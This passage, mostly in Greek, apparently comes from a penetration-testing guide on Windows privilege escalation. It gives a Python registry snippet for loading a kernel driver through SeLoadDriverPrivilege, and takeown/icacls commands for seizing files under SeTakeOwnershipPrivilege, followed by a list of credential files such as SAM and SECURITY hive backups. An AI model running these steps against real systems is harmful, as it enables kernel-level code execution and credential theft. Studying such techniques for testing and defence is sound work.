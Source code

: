 Αυτή η διαδρομή είναι `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName`, όπου `<RID>` είναι ο Σχετικός Αναγνωριστής του τρέχοντος χρήστη. Μέσα στο `HKCU`, αυτή η ολόκληρη διαδρομή πρέπει να δημιουργηθεί, και δύο τιμές πρέπει να οριστούν:

- `ImagePath`, που είναι η διαδρομή προς το δυαδικό αρχείο που θα εκτελεστεί
- `Type`, με τιμή `SERVICE_KERNEL_DRIVER` (`0x00000001`).

**Βήματα που πρέπει να ακολουθηθούν:**

1. Πρόσβαση στο `HKCU` αντί για `HKLM` λόγω περιορισμένης πρόσβασης εγγραφής.
2. Δημιουργία της διαδρομής `\Registry\User\<RID>\System\CurrentControlSet\Services\DriverName` εντός του `HKCU`, όπου `<RID>` αντιπροσωπεύει τον Σχετικό Αναγνωριστή του τρέχοντος χρήστη.
3. Ορισμός του `ImagePath` στη διαδρομή εκτέλεσης του δυαδικού αρχείου.
4. Ανάθεση του `Type` ως `SERVICE_KERNEL_DRIVER` (`0x00000001`).
```python
# Example Python code to set the registry values
import winreg as reg

# Define the path and values
path = r'Software\YourPath\System\CurrentControlSet\Services\DriverName' # Adjust 'YourPath' as needed
key = reg.OpenKey(reg.HKEY_CURRENT_USER, path, 0, reg.KEY_WRITE)
reg.SetValueEx(key, "ImagePath", 0, reg.REG_SZ, "path_to_binary")
reg.SetValueEx(key, "Type", 0, reg.REG_DWORD, 0x00000001)
reg.CloseKey(key)
```
Περισσότεροι τρόποι για να καταχραστεί αυτή η εξουσία στο [https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/privileged-accounts-and-token-privileges#seloaddriverprivilege)

### SeTakeOwnershipPrivilege

Αυτό είναι παρόμοιο με το **SeRestorePrivilege**. Η κύρια λειτουργία του επιτρέπει σε μια διαδικασία να **αναλάβει την ιδιοκτησία ενός αντικειμένου**, παρακάμπτοντας την απαίτηση για ρητή διακριτική πρόσβαση μέσω της παροχής δικαιωμάτων πρόσβασης WRITE_OWNER. Η διαδικασία περιλαμβάνει πρώτα την εξασφάλιση της ιδιοκτησίας του προοριζόμενου κλειδιού μητρώου για σκοπούς εγγραφής, και στη συνέχεια την τροποποίηση του DACL για να επιτραπούν οι λειτουργίες εγγραφής.
```bash
takeown /f 'C:\some\file.txt' #Now the file is owned by you
icacls 'C:\some\file.txt' /grant <your_username>:F #Now you have full access
# Use this with files that might contain credentials such as
%WINDIR%\repair\sam
%WINDIR%\repair\system
%WINDIR%\repair\software
%WINDIR%\repair\security
%WINDIR%\system32\config\security.sav
%WINDIR%\system32\config\software.sav
%WINDIR%\system32\config\system.sav
%WINDIR%\system32\config\SecEvent.Evt
%WINDIR%\system32\config\default.sav
c:\inetpub\wwwwroot\web.config
```
### SeDebugPrivilege
